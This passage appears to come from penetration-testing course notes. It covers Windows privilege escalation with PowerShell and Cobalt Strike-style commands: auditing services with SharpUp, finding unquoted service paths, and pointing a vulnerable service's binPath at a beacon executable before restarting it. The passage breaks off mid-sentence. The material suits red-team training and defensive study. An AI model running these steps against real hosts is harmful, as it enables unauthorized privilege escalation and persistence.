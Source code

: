 ```powershell
}
```

we can verify that it's currently implemented in HKLM and not HKCU.

```powershell
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
```

## Host Privilege Escalation

### Windows Services

```powershell
#List Services
sc query
Get-Service | fl
```

### Unquoted Service Paths

> When you start the service, you'll see its state will be START_PENDING.  If you then check its status with sc query VulnService1, you'll see it will be STOPPED.  This is by design

> I recommend the use of TCP beacons bound to localhost only for privilege escalations.

```powershell
# Check with SharpU
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
# Manual check
run wmic service get name, pathname
# Get if you have write permission
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```

### Weak Service Permissions

```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
# Change path
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
# Validate changed path
run sc qc VulnService2
run sc stop VulnService2
run sc start VulnService2
```

### Weak Service Binary Permissions

BUILTIN\Users have Modify privileges over Service 
